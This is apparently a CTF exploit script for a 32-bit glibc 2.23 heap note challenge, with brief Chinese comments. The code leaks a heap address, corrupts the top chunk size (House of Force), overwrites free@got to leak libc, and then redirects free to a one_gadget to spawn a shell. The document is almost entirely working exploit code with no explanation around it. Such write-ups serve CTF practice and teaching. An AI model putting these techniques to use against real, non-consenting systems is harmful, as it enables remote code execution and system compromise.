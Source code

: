 	def add(size,content):
	   sla('>>','1')
	   sla('note content:',str(size))
	   sa('content:',content)
	 
	def edit(index,content):
	   sla('>>','3')
	   sla('id:',str(index))
	   sa('content:',content)
	 
	def delete(index):
	   sla('>>','4')
	   sla('id:',str(index))
	def main():
		sa('name:','a'*64)
		ru('a'*64)
		heap_addr = u32(r(4)) 
		lg('heap_addr',heap_addr)
		#dbg()
		sa('Org:','a'*0x40)
		#修改top chunk的size为-1（0xFFFFFFFF）
		sla('Host:',p32(0xFFFFFFFF))
		top_chunk_addr = heap_addr + 0x48*3-0x8
		lg('top_chunk_addr',(top_chunk_addr))
		offset = heap_array - (top_chunk_addr +0x8)- 0x8
		lg('offset',offset)
		add(offset,'') #0
		add(0x18,'\n') #1
		edit(1,p32(0) + p32(free_got) + p32(__libc_start_main_got) + p32(heap_array + 0x10)  + b'\x00'*8)
		edit(1,p32(puts_plt) + b'\n')
		#泄露__libc_start_main_got的地址
		delete(2)
		r(1)
		__libc_start_main_addr = u32(r(4))
		lg('__libc_start_main',__libc_start_main_addr)
		#dbg()
		'''
		libc = LibcSearcher('__libc_start_main',__libc_start_main_addr)
		libc_base = __libc_start_main_addr - libc.dump('__libc_start_main')
		system_addr = libc_base + libc.dump('system')
		lg('libc_base',(libc_base))
		lg('system_addr',(system_addr))
		edit(1,p32(system_addr) + b'\n')
		'''
		#本地
		one_gadget = [0x3ac3c,0x3ac3e,0x3ac42,0x3ac49,0x5faa5,0x5faa6]
		libc = ELF('/home/pwn/tools/glibc-all-in-one/libs/2.23-0ubuntu3_i386/libc-2.23.so')
		#buu远程
		#one_gadget = [0x3a80c,0x3a80e,0x3a812,0x3a819,0x5f065,0x5f066]
		#libc = ELF('../../libc-2.23.so--32')
		libc_base = __libc_start_main_addr - libc.sym['__libc_start_main']
		onegadget = one_gadget[3] + libc_base
		edit(1,p32(onegadget) + b'\n')
		#getshell
		delete(1)
		itr()
	main()
